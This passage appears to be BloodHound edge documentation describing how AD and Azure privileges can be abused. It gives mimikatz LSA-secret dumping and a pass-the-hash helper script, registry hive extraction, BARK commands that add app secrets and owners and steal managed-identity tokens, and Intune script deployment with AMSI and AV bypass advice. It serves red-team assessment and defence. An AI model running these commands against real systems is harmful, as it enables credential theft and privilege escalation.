* https://attack.mitre.org/techniques/T1098/
* https://dirkjanm.io/abusing-forgotten-permissions-on-precreated-computer-objects-in-active-directory/
* https://docs.microsoft.com/en-us/windows/win32/adschema/r-user-account-restrictions

|
----

|

TrustedBy
^^^^^^^^^

This edge is used to keep track of domain trusts, and maps to the direction of access.

Abuse Info
-----------

This edge will come in handy when analzying how to jump a forest trust to get enterprise
admin access from domain admin access within a forest. For more information about that
attack, see https://blog.harmj0y.net/redteaming/the-trustpocalypse/

References
----------

https://blog.harmj0y.net/redteaming/the-trustpocalypse/

|

----

|

SyncLAPSPassword
^^^^^^^^^^^^^^^^^^^^

A principal with this signifies the capability of retrieving, through a directory 
synchronization, the value of confidential and RODC filtered attributes, such as 
LAPS' *ms-Mcs-AdmPwd*.

Abuse Info
------------

To abuse these privileges, use DirSync:
    
::

    Sync-LAPS -LDAPFilter '(samaccountname=TargetComputer$)'
    
For other optional parameters, view the DirSync documentation.

Opsec Considerations
--------------------

Executing the attack will generate a 4662 (An operation was performed on an object) 
event at the domain controller if an appropriate SACL is in place on the target object.

References
----------

* https://github.com/simondotsh/DirSync
* https://simondotsh.com/infosec/2022/07/11/dirsync.html

|

----

|

DumpSMSAPassword
^^^^^^^^^^^^^^^^^^^^

A computer with this indicates that a Standalone Managed Service Account (sMSA)
is installed on it. An actor with administrative privileges on the computer
can retrieve the sMSA's password by dumping LSA secrets.

Abuse Info
------------

From an elevated command prompt on the computer where the sMSA resides, run
mimikatz then execute the following commands:

::

    privilege::debug
    token::elevate
    lsadump::secrets

In the output, find *_SC_{262E99C9-6160-4871-ACEC-4E61736B6F21}_* suffixed by the
name of the targeted sMSA. The next line contains *cur/hex :* followed with the
sMSA's password hex-encoded.

To use this password, its NT hash must be calculated. This can be done using
a small python script:

::

    # nt.py
    import sys, hashlib

    pw_hex = sys.argv[1]
    nt_hash = hashlib.new('md4', bytes.fromhex(pw_hex)).hexdigest()

    print(nt_hash)

Execute it like so:

::

    python3 nt.py 35f3e1713d61...

To authenticate as the sMSA, leverage pass-the-hash.

Alternatively, to avoid executing mimikatz on the host, you can save a copy of
the *SYSTEM* and *SECURITY* registry hives from an elevated prompt:

::

    reg save HKLM\SYSTEM %temp%\SYSTEM & reg save HKLM\SECURITY %temp%\SECURITY

Transfer the files named *SYSTEM* and *SECURITY* that were saved at *%temp%* to
another computer where mimikatz can be safely executed.

On this other computer, run mimikatz from a command prompt then execute the
following command to obtain the hex-encoded password:

::

    lsadump::secrets /system:C:\path\to\file\SYSTEM /security:C:\path\to\file\SECURITY

Opsec Considerations
--------------------

Access to registry hives can be monitored and alerted via event ID 4656
(A handle to an object was requested).

References
----------

* https://simondotsh.com/infosec/2022/12/12/assessing-smsa.html
* https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-lsa-secrets
* https://github.com/gentilkiwi/mimikatz

|

----

|

AZAddMembers
^^^^^^^^^^^^

The ability to add other principals to an Azure security group

Abuse Info
------------

Via the Azure portal:
1. Find the group in your tenant (Azure Active Directory -> Groups -> Find Group in list)
2. Click the group from the list
3. In the left pane, click "Members"
4. At the top, click "Add members"
5. Find the principals you want to add to the group and click them, then click "select" at the bottom
6. You should see a message in the top right saying "Member successfully added"
    
Via PowerZure: Add-AzureADGroup -User [UPN] -Group [Group name]

Opsec Considerations
--------------------

The Azure activity log for the tenant will log who added what principal to what group, including the date and time.

References
----------

https://powerzure.readthedocs.io/en/latest/Functions/operational.html#add-azureadgroup
https://docs.microsoft.com/en-us/powershell/module/azuread/add-azureadgroupmember?view=azureadps-2.0-preview

|

----

|

AZAddOwner
^^^^^^^

This edge is created during post-processing. It is created against 
all App Registrations and Service Principals within the same tenant
when an Azure principal has one of the following Azure Active
Directory roles:

* Hybrid Identity Administrator
* Partner Tier1 Support
* Partner Tier2 Support
* Directory Synchronization Accounts

You will not see these privileges when auditing permissions against 
any of the mentioned objects when you use Microsoft tooling, including 
the Azure portal or any API.

Abuse Info
------------

You can use BARK to add a new owner to the target object. The 
BARK function you use will depend on the target object type, 
but all of the functions follow a similar syntax.

These functions require you to supply an MS Graph-scoped JWT
associated with the principal that has the privilege to add a
new owner to your target object. There are several ways to
acquire a JWT. For example, you may use BARK's
Get-GraphTokenWithRefreshToken to acquire an MS Graph-scoped JWT
by supplying a refresh token:

::

	$MGToken = Get-GraphTokenWithRefreshToken `
	    -RefreshToken "0.ARwA6WgJJ9X2qk..." `
	    -TenantID "contoso.onmicrosoft.com"

To add a new owner to a Service Principal, use BARK's 
New-ServicePrincipalOwner function:

::

	New-ServicePrincipalOwner `
	    -ServicePrincipalObjectId "082cf9b3-24e2-427b-bcde-88ffdccb5fad" `
	    -NewOwnerObjectId "cea271c4-7b01-4f57-932d-99d752bbbc60" `
	    -Token $Token

To add a new owner to an App Registration, use BARK's New-AppOwner function:

::

	New-AppOwner `
	    -AppObjectId "52114a0d-fa5b-4ee5-9a29-2ba048d46eee" `
	    -NewOwnerObjectId "cea271c4-7b01-4f57-932d-99d752bbbc60" `
	    -Token $Token

Opsec Considerations
--------------------

Any time you add an owner to any Azure object, the AzureAD audit 
logs will create an event logging who added an owner to what object, 
as well as what the new owner added to the object was.

References
----------

* https://attack.mitre.org/techniques/T1098/
* https://posts.specterops.io/azure-privilege-escalation-via-service-principal-abuse-210ae2be2a5
* https://github.com/BloodHoundAD/BARK

|

----

|

AZAddSecret
^^^^^^^

Azure provides several systems and mechanisms for granting
control of securable objects within Azure Active Directory,
including tenant-scoped admin roles, object-scoped admin roles,
explicit object ownership, and API permissions.

When a principal has been granted "Cloud App Admin" or "App
Admin" against the tenant, that principal gains the ability to
add new secrets to all Service Principals and App Registrations.
Additionally, a principal that has been granted "Cloud App
Admin" or "App Admin" against, or explicit ownership of a
Service Principal or App Registration gains the ability to add
secrets to that particular object.

Abuse Info
------------

There are several ways to perform this abuse, depending on what
sort of access you have to the credentials of the object that
holds this privilege against the target object. If you have an
interactive web browser session for the Azure portal, it is as
simple as finding the target App in the portal and adding a new
secret to the object using the "Certificates & secrets" tab.
Service Principals do not have this tab in the Azure portal but
you can add secrets to them with the MS Graph API.
No matter what kind of control you have, you will be able to
perform this abuse by using BARK's New-AppRegSecret or
New-ServicePrincipalSecret functions.

These functions require you to supply an MS Graph-scoped JWT
associated with the principal that has the privilege to add a
new secret to your target application. There are several ways to
acquire a JWT. For example, you may use BARK's
Get-GraphTokenWithRefreshToken to acquire an MS Graph-scoped JWT
by supplying a refresh token:

::

	$MGToken = Get-GraphTokenWithRefreshToken -RefreshToken "0.ARwA6WgJJ9X2qk..." -TenantID "contoso.onmicrosoft.com"

Then use BARK's New-AppRegSecret to add a new secret to the
target application:

::

	New-AppRegSecret -AppRegObjectID "d878..." -Token $MGToken.access_token

The output will contain the plain-text secret you just created
for the target app:

::

	New-AppRegSecret -AppRegObjectID "d878..." -Token $MGToken.access_token
	
	Name              Value
	----              ----- 
	AppRegSecretValue odg8Q~...
	AppRegAppId       4d31...
	AppRegObjectId    d878...

With this plain text secret, you can now acquire tokens as the
service principal associated with the app. You can easily do
this with BARK's Get-MSGraphToken function:

::

	PS /Users/andyrobbins> $SPToken = Get-MSGraphToken `
	-ClientID "4d31..." `
	-ClientSecret "odg8Q~..." `
	-TenantName "contoso.onmicrosoft.com"
	
	PS /Users/andyrobbins> $SPToken.access_token
	eyJ0eXAiOiJKV1QiLCJub...

Now you can use this JWT to perform actions against any other MS
Graph endpoint as the service principal, continuing your attack
path with the privileges of that service principal.

Opsec Considerations
--------------------

When you create a new secret for an App or Service Principal,
Azure creates an event called "Update application - Certificates
and secrets management". This event describes who added the secret
to which application or service principal.

References
----------

* https://attack.mitre.org/techniques/T1098/
* https://posts.specterops.io/azure-privilege-escalation-via-service-principal-abuse-210ae2be2a5
* https://docs.microsoft.com/en-us/azure/active-directory/roles/assign-roles-different-scopes

|

----

|

AZAKSContributor
^^^^^^^

The Azure Kubernetes Service Contributor role grants full control
of the target Azure Kubernetes Service Managed Cluster. This includes 
the ability to remotely fetch administrator credentials for the cluster 
as well as the ability to execute arbitrary commands on compute 
nodes associated with the AKS Managed Cluster.

Abuse Info
------------

You can use BARK's Invoke-AzureRMAKSRunCommand function 
to execute commands on compute nodes associated with the 
target AKS Managed Cluster.

This function requires you to supply an Azure Resource Manager
scoped JWT associated with the principal that has the privilege
to execute commands on the cluster. There are several ways to
acquire a JWT. For example, you may use BARK's
Get-ARMTokenWithRefreshToken to acquire an Azure RM-scoped JWT
by supplying a refresh token:

::

	$ARMToken = Get-ARMTokenWithRefreshToken `
	    -RefreshToken "0.ARwA6WgJJ9X2qk..." `
	    -TenantID "contoso.onmicrosoft.com"

Now you can use BARK's Invoke-AzureRMAKSRunCommand function 
to execute a command against the target AKS Managed Cluster.
For example, to run a simple "whoami" command:

::

	Invoke-AzureRMAKSRunCommand `
	    -Token $ARMToken `
	    -TargetAKSId "/subscriptions/f1816681-4df5-4a31-acfa-922401687008/resourcegroups/AKS_ResourceGroup/providers/Microsoft.ContainerService/managedClusters/mykubernetescluster" `
	    -Command "whoami"

If the AKS Cluster or its associated Virtual Machine Scale Sets 
have managed identity assignments, you can use BARK's 
Invoke-AzureRMAKSRunCommand function to retrieve a JWT for the 
managed identity Service Principal like this:

::

	Invoke-AzureRMAKSRunCommand `
	    -Token $ARMToken `
	    -TargetAKSId "/subscriptions/f1816681-4df5-4a31-acfa-922401687008/resourcegroups/AKS_ResourceGroup/providers/Microsoft.ContainerService/managedClusters/mykubernetescluster" `
	    -Command \'curl -i -H "Metadata: true" "http://169.254.169.254/metadata/identity/oauth2/token?resource=https://graph.microsoft.com/&api-version=2019-08-01"\'

If successful, the output will include a JWT for the managed identity 
service principal.

Opsec Considerations
--------------------

This will depend on which particular abuse you perform, but in
general Azure will create a log event for each abuse.

References
----------

* https://github.com/BloodHoundAD/BARK
* https://www.netspi.com/blog/technical/cloud-penetration-testing/extract-credentials-from-azure-kubernetes-service/

|

----

|

AZAppAdmin
^^^^^^^^^^

Principals with the Application Admin role can control tenant-resident apps.

Abuse Info
------------

Create a new credential for the app, then authenticate to the tenant as the
app’s service principal, then abuse whatever privilege it is that the service
principal has.

Opsec Considerations
--------------------

The Azure portal will create a log even whenever a new credential is created for a service principal.

References
----------

https://dirkjanm.io/azure-ad-privilege-escalation-application-admin/

|

----

|

AZAutomationContributor
^^^^^^^

The Azure Automation Contributor role grants full control
of the target Azure Automation Account. This includes 
the ability to execute arbitrary commands on the Automation 
Account.

Abuse Info
------------

You can use BARK's New-AzureAutomationAccountRunBook and 
Get-AzureAutomationAccountRunBookOutput functions to execute
arbitrary commands against the target Automation Account.

These functions require you to supply an Azure Resource Manager
scoped JWT associated with the principal that has the privilege
to add or modify and run Automation Account run books. There are
several ways to acquire a JWT. For example, you may use BARK's
Get-ARMTokenWithRefreshToken to acquire an Azure RM-scoped JWT
by supplying a refresh token:

::

	$ARMToken = Get-ARMTokenWithRefreshToken `
	    -RefreshToken "0.ARwA6WgJJ9X2qk..." `
	    -TenantID "contoso.onmicrosoft.com"

Now you can use BARK's New-AzureAutomationAccountRunBook function 
to add a new runbook to the target Automation Account, specifying
a command to execute using the -Script parameter:

::

	New-AzureAutomationAccountRunBook `
	    -Token $ARMToken `
	    -RunBookName "MyCoolRunBook" `
	    -AutomationAccountPath "https://management.azure.com/subscriptions/f1816681-4df5-4a31-acfa-922401687008/resourceGroups/AutomationAccts/providers/Microsoft.Automation/automationAccounts/MyCoolAutomationAccount" `
	    -Script "whoami"

After adding the new runbook, you must execute it and fetch its 
output. You can do this automatically with BARK's
Get-AzureAutomationAccountRunBookOutput function: 

::

	Get-AzureAutomationAccountRunBookOutput `
	    -Token $ARMToken `
	    -RunBookName "MyCoolRunBook" `
	    -AutomationAccountPath "https://management.azure.com/subscriptions/f1816681-4df5-4a31-acfa-922401687008/resourceGroups/AutomationAccts/providers/Microsoft.Automation/automationAccounts/MyCoolAutomationAccount"

If the Automation Account has a managed identity assignment, you can use
these two functions to retrieve a JWT for the service principal like this:

::

	$Script = $tokenAuthURI = $env:MSI_ENDPOINT + "?resource=https://graph.microsoft.com/&api-version=2017-09-01"; $tokenResponse = Invoke-RestMethod -Method Get -Headers @{"Secret"="$env:MSI_SECRET"} -Uri $tokenAuthURI; $tokenResponse.access_token
	New-AzureAutomationAccountRunBook -Token $ARMToken -RunBookName "MyCoolRunBook" -AutomationAccountPath "https://management.azure.com/subscriptions/f1816681-4df5-4a31-acfa-922401687008/resourceGroups/AutomationAccts/providers/Microsoft.Automation/automationAccounts/MyCoolAutomationAccount" -Script $Script
	Get-AzureAutomationAccountRunBookOutput -Token $ARMToken -RunBookName "MyCoolRunBook" -AutomationAccountPath "https://management.azure.com/subscriptions/f1816681-4df5-4a31-acfa-922401687008/resourceGroups/AutomationAccts/providers/Microsoft.Automation/automationAccounts/MyCoolAutomationAccount"

If successful, the output will include a JWT for the managed identity 
service principal.

Opsec Considerations
--------------------

This will depend on which particular abuse you perform, but in
general Azure will create a log event for each abuse.

References
----------

* https://github.com/BloodHoundAD/BARK
* https://posts.specterops.io/managed-identity-attack-paths-part-1-automation-accounts-82667d17187a

|

----

|

AZAvereContributor
^^^^^^^

Any principal granted the Avere Contributor role, scoped to the
affected VM, can reset the built-in administrator password on the
VM.

Abuse Info
------------

The Avere Contributor role allows you to run SYSTEM
commands on the VM

Via PowerZure:

* `Invoke-AzureRunCommand <https://powerzure.readthedocs.io/en/latest/Functions/operational.html#invoke-azureruncommand>`_
* `Invoke-AzureRunMSBuild <https://powerzure.readthedocs.io/en/latest/Functions/operational.html#invoke-azurerunmsbuild>`_
* `Invoke-AzureRunProgram <https://powerzure.readthedocs.io/en/latest/Functions/operational.html#invoke-azurerunprogram>`_

Opsec Considerations
--------------------

Because you'll be running a command as the SYSTEM user on the
Virtual Machine, the same opsec considerations for running malicious
commands on any system should be taken into account: command line
logging, PowerShell script block logging, EDR, etc.

References
----------

* https://attack.mitre.org/tactics/TA0008/
* https://attack.mitre.org/techniques/T1021/
* https://docs.microsoft.com/en-us/azure/role-based-access-control/built-in-roles#avere-contributor

|

----

|

AZCloudAppAdmin
^^^^^^^^^^^^^^^

Principals with the Cloud App Admin role can control tenant-resident apps.

Abuse Info
------------

Create a new credential for the app, then authenticate to the tenant as the
app’s service principal, then abuse whatever privilege it is that the service
principal has.

Opsec Considerations
--------------------

The Azure portal will create a log even whenever a new credential is created for a service principal.

References
----------

https://dirkjanm.io/azure-ad-privilege-escalation-application-admin/

|

----

|

AZContains
^^^^^^^^^^

This indicates that the parent object contains the child object, such as a resource
group containing a virtual machine, or a tenant "containing" a subscription.

|

----

|

AZContributor
^^^^^^^^^^^^^

The contributor role grants almost all abusable privileges in all circumstances,
with some exceptions. Those exceptions are not collected by AzureHound.

Abuse Info
------------

This depends on what the target object is:
* **Key Vault:** You can read secrets and alter access policies (grant yourself
access to read secrets)
* **Automation Account:** You can create a new runbook that runs as the Automation
Account, and edit existing runbooks. Runbooks can be used to authenticate as the
Automation Account and abuse privileges held by the Automation Account. If the
Automation Account is using a ‘RunAs’ account, you can gather the certificate used
to login and impersonate that account.
* **Virtual Machine:** Run SYSTEM commands on the VM

Opsec Considerations
--------------------

This will depend on which particular abuse you perform, but in general Azure will
create a log event for each abuse.

References
----------

https://blog.netspi.com/maintaining-azure-persistence-via-automation-accounts/
https://blog.netspi.com/azure-automation-accounts-key-stores/
https://blog.netspi.com/get-azurepasswords/
https://blog.netspi.com/attacking-azure-cloud-shell/

|

----

|

AZExecuteCommand
^^^^^^^

Principals with the Intune Administrators role are able to
execute arbitrary PowerShell scripts on devices that are joined
to the Azure Active Directory tenant.

Abuse Info
------------

First, have your PowerShell script ready to go and save it
somewhere as a PS1 file. Take all the necessary operational
security (opsec) and AMSI-bypass steps you want at this point,
keeping in mind the script will run as the SYSTEM user unless
you specify otherwise. Also keep in mind that the script will
be written to disk, so take whatever AV bypass measures you need
as well.

Next, log into the Azure web portal as the user with the "Intune
Administrator" role activated. After authenticating, access Endpoint
Manager at https://endpoint.microsoft.com.

Click on "Devices" on the left, which takes you, unsurprisingly, to
the devices overview. Click on "Scripts" under the "Policy" section
to go to the scripts management page. Click "Add," then click "Windows
10".

This will bring you to the "Add Powershell Script" page. On this first
page, you'll enter a name for the script and a brief description. On the
next page, click the folder and then select your PS1 from the common
dialogue window. You've now got three options to configure, but can
leave them all in the default "No" position. Most interestingly, keeping
the first selection as "No" will cause the script to run as the SYSTEM user.

Click next, and you'll see the page that lets you scope which systems and
users this script will execute for. You can choose to assign the script to
"All devices," "All users," or "All users and devices." If you leave the
"Assign to" dropdown at its default selection of "Selected groups," you can
scope the script to only execute on systems or for users that belong to
certain security groups. The choice is yours: run the script on every
possible system or constrain it to only run on certain systems by scoping it
to existing security groups or by adding specific devices or users to new
security groups.

Click "Next" and you'll see the review page which lets you see what you're
about to do. Click "Add" and Azure will begin registering the script.
At this point, the script is now ready to run on your target systems. This
process works similarly to Group Policy, in that the Intune agent running
on each device periodically checks in (by default every hour) with
Intune/Endpoint Manager to see if there is a PowerShell script for it to run,
so you will need to wait up to an hour for your target system to actually pull
the script down and run it.

Opsec Considerations
--------------------

When the Intune agent pulls down and executes PowerShell
scripts, a number of artifacts are created on the endpoint -
some permanent and some ephemeral.

Two files are created on the endpoint when a PowerShell script
is executed in the following locations::

  C:\Program files (x86)\Microsoft Intune Management Extension\Policies\Scripts
  C:\Program files (x86)\Microsoft Intune Management Extension\Policies\Results

The file under the "Scripts" folder will be a local copy of the
PS1 stored in Azure, and the file under the "Results" folder
will be the output of the PS1; however, both of these files are
automatically deleted as soon as the script finishes running.
There are also permanent artifacts left over (assuming the
attacker doesn't tamper with them). A full copy of the contents
of the PS1 can be found in this log file::

	C:\ProgramData\Microsoft\IntuneManagementExtension\Logs\_IntuneManagementExtension.txt

References
----------

* https://attack.mitre.org/tactics/TA0002/
* https://posts.specterops.io/death-from-above-lateral-movement-from-azure-to-on-prem-ad-d18cb3959d4d

|

----

|

AZGetCertificates
^^^^^^^^^^^^^^^^^

The ability to read certificates from key vaults.

Abuse Info
------------

Use PowerShell or PowerZure to fetch the certificate from the key vault.
    
Via PowerZure:

* Get-AzureKeyVaultContent
* Export-AzureKeyVaultcontent

Opsec Considerations
--------------------

Azure will create a new log event for the key vault whenever a secret is accessed.

References
----------

https://blog.netspi.com/azure-automation-accounts-key-stores/
https://powerzure.readthedocs.io/en/latest/Functions/operational.html#get-azurekeyvaultcontent

|

----

|

AZGetKeys
^^^^^^^^^

The ability to read keys from key vaults.

Abuse Info
------------

Use PowerShell or PowerZure to fetch the certificate from the key vault.
    
Via PowerZure:

* Get-AzureKeyVaultContent
* Export-AzureKeyVaultcontent

Opsec Considerations
--------------------

Azure will create a new log event for the key vault whenever a secret is accessed.

References
----------

https://blog.netspi.com/azure-automation-accounts-key-stores/
https://powerzure.readthedocs.io/en/latest/Functions/operational.html#get-azurekeyvaultcontent

|

----

|

AZGetSecrets
^^^^^^^^^^^^

The ability to read secrets from key vaults.

Abuse Info
------------

Use PowerShell or PowerZure to fetch the certificate from the key vault.
    
Via PowerZure:

* Get-AzureKeyVaultContent
* Export-AzureKeyVaultcontent

Opsec Considerations
--------------------

Azure will create a new log event for the key vault whenever a secret is accessed.

References
----------

https://blog.netspi.com/azure-automation-accounts-key-stores/
https://powerzure.readthedocs.io/en/latest/Functions/operational.html#get-azurekeyvaultcontent

|

----

|

AZGlobalAdmin
^^^^^^^^^^^^^

This edge indicates the principal has the Global Admin role active against
the target tenant. In other words, the principal is a Global Admin. Global
Admins can do almost anything against almost every object type in the tenant,
this is the highest privilege role in Azure.

Abuse Info
------------

As a Global Admin, you can change passwords, run commands on VMs, read key vault
secrets, activate roles for other users, etc.

For Global Admin to be able to abuse Azure resources, you must first grant yourself
the ‘User Access Administrator’ role in Azure RBAC. This is done through a toggle
button in the portal, or via the PowerZure function Set-AzureElevatedPrivileges. 
    
Once that role is applied to account, you can then add yourself as an Owner to all
subscriptions in the tenant

Opsec Considerations
--------------------

This depends on exactly what you do, but in general Azure will log each abuse action.

References
----------

https://blog.netspi.com/attacking-azure-cloud-shell/

|

----

|

AZHasRole
^^^^^^^

This edge indicates that a principal has been granted a particular
AzureAD admin role.

Abuse Info
------------

No abuse is necessary. This edge only indicates
that the principal has been granted a particular
AzureAD admin role.

Opsec Considerations
--------------------

The opsec considerations for a particular action authorized by a
principal&ldquo;s active AzureAD role assignment will wholly depend
on what the action taken is. This edge does not capture all abusable
possibilities.

References
----------

* https://docs.microsoft.com/en-us/graph/permissions-reference
* https://docs.microsoft.com/en-us/azure/role-based-access-control/overview

|

----

|

AZKeyVaultContributor
^^^^^^^

The Key Vault Contributor role grants full control of the 
target Key Vault. This includes the ability to read all secrets 
stored on the Key Vault.

Abuse Info
------------

You can read secrets and alter access policies (grant yourself access to read secrets)

Via PowerZure:

* `Get-AzureKeyVaultContent <https://powerzure.readthedocs.io/en/latest/Functions/operational.html#get-azurekeyvaultcontent>`_
* `Export-AzureKeyVaultContent <https://powerzure.readthedocs.io/en/latest/Functions/operational.html#export-azurekeyvaultcontent>`_

Opsec Considerations
--------------------

This will depend on which particular abuse you perform, but in
general Azure will create a log event for each abuse.

References
----------

* https://blog.netspi.com/maintaining-azure-persistence-via-automation-accounts/ 
* https://blog.netspi.com/azure-automation-accounts-key-stores/
* https://blog.netspi.com/get-azurepasswords/
* https://blog.netspi.com/attacking-azure-cloud-shell/

|

----

|

AZLogicAppContributor
^^^^^^^

The Logic Contributor role grants full control
of the target Logic App. This includes the ability
to execute arbitrary commands on the Logic App.

Abuse Info
------------

Currently you need access to the portal GUI to execute this abuse.
The abuse involves adding or modifying an existing logic app to coerce 
the logic app into sending a JWT for its managed identity service principal
to a web server you control.

You can see a full walkthrough for executing that abuse in this blog post:
`Andy Robbins - Managed Identity Attack Paths, Part 2: Logic Apps <https://medium.com/p/52b29354fc54>`_

Opsec Considerations
--------------------

This will depend on which particular abuse you perform, but in
general Azure will create a log event for each abuse.

References
----------

* https://github.com/BloodHoundAD/BARK
* https://medium.com/p/52b29354fc54

|

----

|

AZManagedIdentity
^^^^^^^^

Azure resources like Virtual Machines, Logic Apps, and Automation Accounts
can be assigned to either System- or User-Assigned Managed Identities.
This assignment allows the Azure resource to authenticate to Azure services
as the Managed Identity without needing to know the credential for that 
Managed Identity. Managed Identities, whether System- or User-Assigned, are
AzureAD Service Principals.

Abuse Info
------------

You can modify the Azure RM resource to execute actions against Azure with the 
privileges of the Managed Identity Service Principal.

It is also possible to extract a JSON Web Token (JWT) for the Service Principal, 
then use that JWT to authenticate as the Service Principal outside the scope of
the Azure RM resource. Here is how you extract the JWT using PowerShell:

::

  $tokenAuthURI = $env:MSI_ENDPOINT + "?resource=https://graph.microsoft.com/&api-version=2017-09-01"
  $tokenResponse = Invoke-RestMethod -Method Get -Headers @{"Secret"="$env:MSI_SECRET"} -Uri $tokenAuthURI
  $tokenResponse.access_token

We can then use this JWT to authenticate as the Service Principal to the Microsoft 
Graph APIs using BARK for example.

Opsec Considerations
--------------------

This will depend on which particular abuse you perform, but in general Azure will create a log event for each abuse.

References
----------

* https://attack.mitre.org/techniques/T1078/
* https://posts.specterops.io/managed-identity-attack-paths-part-1-automation-accounts-82667d17187a
* https://m365internals.com/2021/11/30/lateral-movement-with-managed-identities-of-azure-virtual-machines
* https://github.com/BloodHoundAD/BARK

|

----

|

AZMemberOf
^^^^^^^

The given asset is a member of the group.

Groups in Azure Active Directory grant their direct members any privileges
the group itself has. If a group has an AzureAD admin role, direct members
of the group inherit those permissions.

Abuse Info
------------

No abuse is necessary. This edge simply indicates that a principal
belongs to a security group.

Opsec Considerations
--------------------

No opsec considerations apply to this edge.

References
----------

* https://docs.microsoft.com/en-us/azure/active-directory/roles/groups-create-eligible

|

----

|

AZMGAddMember
^^^^^^^

This edge is created during post-processing. It is created against 
non role assignable Azure AD security groups when a Service
Principal has one of the following MS Graph app role assignments:

* Directory.ReadWrite.All
* Group.ReadWrite.All
* GroupMember.ReadWrite.All

It is created against all Azure AD security groups, including those 
that are role assignable, when a Service Principal has the following 
MS Graph app role:

* RoleManagement.ReadWrite.Directory

You will not see this privilege when using just the Azure portal 
or any other Microsoft tooling. If you audit the roles and administrators 
affecting any particular Azure security group, you will not see 
that the Service Principal can add members to the group, but it 
indeed can because of the parallel access management system used 
by MS Graph.

Abuse Info
------------

You can abuse this privilege using BARK's Add-AZMemberToGroup
function.

This function requires you to supply an MS Graph-scoped JWT 
associated with the Service Principal that has the privilege 
to add principal to the target group. There are several ways to
acquire a JWT. For example, you may use BARK's
Get-MSGraphTokenWithClientCredentials to acquire an MS Graph-scoped JWT
by supplying a Service Principal Client ID and secret:

::

	$MGToken = Get-MSGraphTokenWithClientCredentials `
	    -ClientID "34c7f844-b6d7-47f3-b1b8-720e0ecba49c" `
	    -ClientSecret "asdf..." `
	    -TenantName "contoso.onmicrosoft.com"

Then use BARK's Add-AZMemberToGroup function to add a new principial 
to the target group:

::

	Add-AZMemberToGroup `
	    -PrincipalID = "028362ca-90ae-41f2-ae9f-1a678cc17391" `
	    -TargetGroupId "b9801b7a-fcec-44e2-a21b-86cb7ec718e4" `
	    -Token $MGToken.access_token

Now you can re-authenticate as the principial you just added to the group
and continue your attack path, now having whatever privileges the target
group has.

Opsec Considerations
--------------------

The Azure activity log for the tenant will log who added what
principal to what group, including the date and time.

References
----------

* https://attack.mitre.org/techniques/T1098/
* https://posts.specterops.io/azure-privilege-escalation-via-service-principal-abuse-210ae2be2a5
* https://github.com/BloodHoundAD/BARK

|

----

|

AZMGAddOwner
^^^^^^^

This edge is created during post-processing. It is created against 
all App Registrations and Service Principals within the same tenant 
when a Service Principal has the following MS Graph app role:

* Application.ReadWrite.All

It is also created against all Azure Service Principals when a 
Service Principal has the following MS Graph app role:

* ServicePrincipalEndpoint.ReadWrite.All

It is also created against all Azure security groups that are not 
role eligible when a Service Principal has one of the following MS 
Graph app roles:

* Directory.ReadWrite.All
* Group.ReadWrite.All

Finally, it is created against all Azure security groups and all 
Azure App Registrations when a Service Principal has the following 
MS Graph app role:

* RoleManagement.ReadWrite.Directory

You will not see these privileges when auditing permissions against 
any of the mentioned objects when you use Microsoft tooling, including 
the Azure portal and the MS Graph API itself.

Abuse Info
------------

You can use BARK to add a new owner to the target object. The 
BARK function you use will depend on the target object type, 
but all of the functions follow a similar syntax.

These functions require you to supply an MS Graph-scoped JWT 
associated with the Service Principal that has the privilege 
to add a new owner to the target object. There are several ways to
acquire a JWT. For example, you may use BARK's
Get-MSGraphTokenWithClientCredentials to acquire an MS Graph-scoped JWT
by supplying a Service Principal Client ID and secret:

::

	$MGToken = Get-MSGraphTokenWithClientCredentials `
	    -ClientID "34c7f844-b6d7-47f3-b1b8-720e0ecba49c" `
	    -ClientSecret "asdf..." `
	    -TenantName "contoso.onmicrosoft.com"

To add a new owner to a Service Principal, use BARK's 
New-ServicePrincipalOwner function:

::

	New-ServicePrincipalOwner `
	    -ServicePrincipalObjectId "082cf9b3-24e2-427b-bcde-88ffdccb5fad" `
	    -NewOwnerObjectId "cea271c4-7b01-4f57-932d-99d752bbbc60" `
	    -Token $Token

To add a new owner to an App Registration, use BARK's New-AppOwner function:

::

	New-AppOwner `
	    -AppObjectId "52114a0d-fa5b-4ee5-9a29-2ba048d46eee" `
	    -NewOwnerObjectId "cea271c4-7b01-4f57-932d-99d752bbbc60" `
	    -Token $Token

To add a new owner to a Group, use BARK's New-GroupOwner function:

::

	New-AppOwner `
	    -GroupObjectId "352032bf-161d-4788-b77c-b6f935339770" `
	    -NewOwnerObjectId "cea271c4-7b01-4f57-932d-99d752bbbc60" `
	    -Token $Token

Opsec Considerations
--------------------

Any time you add an owner to any Azure object, the AzureAD audit 
logs will create an event logging who added an owner to what object, 
as well as what the new owner added to the object was.

References
----------

* https://attack.mitre.org/techniques/T1098/
* https://posts.specterops.io/azure-privilege-escalation-via-service-principal-abuse-210ae2be2a5
* https://github.com/BloodHoundAD/BARK

|

----

|

AZMGAddSecret
^^^^^^^

This edge is created during post-processing. It is created against 
all Azure App Registrations and Service Principals when a Service 
Principal has one of the following MS Graph app roles:

* Application.ReadWrite.All
* RoleManagement.ReadWrite.Directory

You will not see this privilege when using just the Azure portal 
or any other Microsoft tooling. If you audit the roles and administrators 
affecting any particular Azure App or Service Principal, you will not see 
that the Service Principal can add secrets to the object, but it 
indeed can because of the parallel access management system used 
by MS Graph.

Abuse Info
------------

There are several ways to perform this abuse, depending on what
sort of access you have to the credentials of the object that
holds this privilege against the target object. If you have an
interactive web browser session for the Azure portal, it is as
simple as finding the target App in the portal and adding a new
secret to the object using the "Certificates & secrets" tab.
Service Principals do not have this tab in the Azure portal but
you can add secrets to them with the MS Graph API.
No matter what kind of control you have, you will be able to
perform this abuse by using BARK's New-AppRegSecret or
New-ServicePrincipalSecret functions.

These functions require you to supply an MS Graph-scoped JWT 
associated with the Service Principal that has the privilege 
to add secrets to the target object. There are several ways to
acquire a JWT. For example, you may use BARK's
Get-MSGraphTokenWithClientCredentials to acquire an MS Graph-scoped JWT
by supplying a Service Principal Client ID and secret:

::

	$MGToken = Get-MSGraphTokenWithClientCredentials `
	    -ClientID "34c7f844-b6d7-47f3-b1b8-720e0ecba49c" `
	    -ClientSecret "asdf..." `
	    -TenantName "contoso.onmicrosoft.com"

Then use BARK's New-AppRegSecret to add a new secret to the
target application:

::

	New-AppRegSecret `
	    -AppRegObjectID "d878..." `
	    -Token $MGToken.access_token

The output will contain the plain-text secret you just created
for the target app:

::

	New-AppRegSecret `
	    -AppRegObjectID "d878..." `
	    -Token $MGToken.access_token
	
	Name                Value
	----                -----
	AppRegSecretValue   odg8Q~...
	AppRegAppId         4d31...
	AppRegObjectId      d878...

